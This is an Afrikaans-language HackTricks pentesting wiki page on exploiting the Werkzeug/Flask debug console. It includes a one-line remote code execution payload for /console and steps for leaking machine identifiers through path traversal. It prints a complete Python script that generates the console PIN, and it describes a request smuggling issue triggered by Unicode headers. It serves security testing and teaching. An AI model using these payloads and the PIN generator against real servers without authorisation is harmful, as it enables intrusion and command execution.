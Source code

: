 # Werkzeug / Flask Debug

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Onmiddellik beskikbare opstelling vir kwesbaarheidsevaluering & penetrasietoetsing**. Voer 'n volledige pentest vanaf enige plek uit met 20+ gereedskap & funksies wat van rekognisie tot verslagdoening gaan. Ons vervang nie pentesters nie - ons ontwikkel pasgemaakte gereedskap, opsporing & eksplorasie modules om hulle weer 'n bietjie tyd te gee om dieper te delf, shells te pop, en pret te hê.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

As debug aktief is, kan jy probeer om toegang te verkry tot `/console` en RCE te verkry.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Daar is ook verskeie exploits op die internet soos [hierdie ](https://github.com/its-arun/Werkzeug-Debug-RCE)of een in metasploit.

## Pin Beskerm - Pad Traversal

In sommige gevalle gaan die **`/console`** eindpunt beskerm word deur 'n pin. As jy 'n **file traversal vulnerability** het, kan jy al die nodige inligting lek om daardie pin te genereer.

### Werkzeug Console PIN Exploit

Forceer 'n debug foutbladsy in die app om dit te sien:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
'n Boodskap rakende die "konsole vergrendel" scenario word teëgekom wanneer daar probeer word om toegang te verkry tot Werkzeug se foutopsporing koppelvlak, wat 'n vereiste vir 'n PIN aandui om die konsole te ontgrendel. Die voorstel word gemaak om die konsole PIN te benut deur die PIN generasie-algoritme in Werkzeug se foutopsporing inisialiseringslêer (`__init__.py`) te analiseer. Die PIN generasie-meganisme kan bestudeer word vanaf die [**Werkzeug bronkode-bewaarplek**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), alhoewel dit aanbeveel word om die werklike bediener kode te verkry deur 'n lêer traversering kwesbaarheid weens moontlike weergawe verskille.

Om die konsole PIN te benut, is twee stelle veranderlikes, `probably_public_bits` en `private_bits`, nodig:

#### **`probably_public_bits`**

* **`username`**: Verwys na die gebruiker wat die Flask-sessie begin het.
* **`modname`**: Gewoonlik aangewys as `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Oor die algemeen los dit op na **Flask**.
* **`getattr(mod, '__file__', None)`**: Verteenwoordig die volle pad na `app.py` binne die Flask-gids (bv. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). As `app.py` nie van toepassing is nie, **probeer `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Verkry die MAC-adres van die huidige masjien, met `str(uuid.getnode())` wat dit in 'n desimale formaat vertaal.
* Om **die bediener se MAC-adres te bepaal**, moet 'n aktiewe netwerkinterfase wat deur die app gebruik word, geïdentifiseer word (bv. `ens3`). In gevalle van onsekerheid, **lek `/proc/net/arp`** om die toestel-ID te vind, dan **onttrek die MAC-adres** van **`/sys/class/net/<device id>/address`**.
*   Om 'n heksadesimale MAC-adres na desimaal om te skakel kan soos hieronder gedoen word:

```python
# Voorbeeld MAC-adres: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Kombineer data van `/etc/machine-id` of `/proc/sys/kernel/random/boot_id` met die eerste lyn van `/proc/self/cgroup` na die laaste skuinsstreep (`/`).

<details>

<summary>Kode vir `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Na die versameling van alle nodige data, kan die exploit-skrip uitgevoer word om die Werkzeug-konsol PIN te genereer:

Na die versameling van alle nodige data, kan die exploit-skrip uitgevoer word om die Werkzeug-konsol PIN te genereer. Die skrip gebruik die saamgestelde `probably_public_bits` en `private_bits` om 'n hash te skep, wat dan verdere verwerking ondergaan om die finale PIN te produseer. Hieronder is die Python-kode om hierdie proses uit te voer:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Hierdie skripte produseer die PIN deur die gekonkateneerde bits te hash, spesifieke sout (`cookiesalt` en `pinsalt`) by te voeg, en die uitvoer te formateer. Dit is belangrik om te noem dat die werklike waardes vir `probably_public_bits` en `private_bits` akkuraat van die teikenstelsel verkry moet word om te verseker dat die gegenereerde PIN ooreenstem met die een wat deur die Werkzeug-konsol verwag word.

{% hint style="success" %}
As jy op 'n **ou weergawe** van Werkzeug is, probeer om die **hashing-algoritme na md5** te verander in plaas van sha1.
{% endhint %}

## Werkzeug Unicode karakters

Soos waargeneem in [**hierdie probleem**](https://github.com/pallets/werkzeug/issues/2833), sluit Werkzeug nie 'n versoek met Unicode karakters in headers nie. En soos verduidelik in [**hierdie skrywe**](https://mizu.re/post/twisty-python), kan dit 'n CL.0 Request Smuggling kwesbaarheid veroorsaak.

Dit is omdat dit in Werkzeug moontlik is om sommige **Unicode** karakters te stuur en dit sal die bediener **breek**. As die HTTP-verbinding egter met die header **`Connection: keep-alive`** geskep is, sal die liggaam van die versoek nie gelees word nie en die verbinding sal steeds oop wees, so die **liggaam** van die versoek sal as die **volgende HTTP versoek** behandel word.

## Geoutomatiseerde Exploitatie

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Verwysings

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Onmiddellik beskikbare opstelling vir kwesbaarheidsevaluering & penetrasietoetsing**. Voer 'n volledige pentest van enige plek af uit met 20+ gereedskap & funksies wat van rekognisie tot verslagdoening strek. Ons vervang nie pentesters nie - ons ontwikkel pasgemaakte gereedskap, opsporing & eksploitasiemodules om hulle weer 'n bietjie tyd te gee om dieper te delf, shells te pop, en pret te hê.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
